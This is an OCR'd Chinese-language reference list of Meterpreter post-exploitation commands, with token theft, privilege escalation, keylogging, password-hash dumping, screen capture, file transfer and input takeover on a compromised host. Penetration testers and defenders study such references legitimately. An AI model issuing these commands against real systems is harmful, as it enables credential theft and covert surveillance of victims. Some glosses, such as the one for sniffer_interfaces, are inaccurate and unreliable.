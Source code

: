 > steal_token PID
盗窃给定进程的可用令牌并进行令牌假冒。

> drop_token
停止假冒当前令牌。

> getsystem
通过各种攻击向量来提升系统用户权限。

> execute -f cmd.exe -i
执行cmd.exe命令并进行交互。

> execute -f cmd.exe -i -t
以所有可用令牌来执行cmd命令并隐藏该进程。

> rev2self
回到控制目标主机的初始用户账户下。

> reg command
在目标主机注册表中进行交互，创建，删除，查询等操作。

> setdesktop number
切换到另一个用户界面（该功能基于那些用户已登录）。

> screenshot
对目标主机的屏幕进行截图。

> upload file
向目标主机上传文件。

> download file
从目标主机下载文件。

> keyscan_start
针对远程目标主机开启键盘记录功能。

> keyscan_dump
存储目标主机上捕获的键盘记录。

> keyscan_stop
停止针对目标主机的键盘记录。

> getprivs
尽可能多的获取目标主机上的特权。

> uictl enable keyboard/mouse
接管目标主机的键盘和鼠标。

> background
将你当前的metasploit shell转为后台执行。

> hashdump
导出目标主机中的口令哈希值。

> use sniffer
加载嗅探模式。

> sniffer_interfaces
列出目标主机所有开放的网络端口。
